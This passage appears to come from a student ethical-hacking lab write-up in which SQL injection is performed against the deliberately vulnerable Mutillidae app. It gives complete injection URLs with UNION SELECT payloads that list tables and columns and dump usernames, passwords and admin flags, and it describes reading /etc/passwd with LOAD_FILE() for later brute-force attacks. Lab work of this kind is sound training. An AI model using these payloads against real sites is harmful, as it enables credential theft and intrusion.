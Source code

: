 ![image](https://github.com/CodesWithRobi/EH-LAB08-SQL-Injection/assets/130537166/d69b786b-122e-4676-99df-ed71d08c2075)


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=robinson%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/CodesWithRobi/EH-LAB08-SQL-Injection/assets/130537166/58164b10-70cf-4180-8808-1170e8ca8bd1)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.






The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 



Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details



## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.
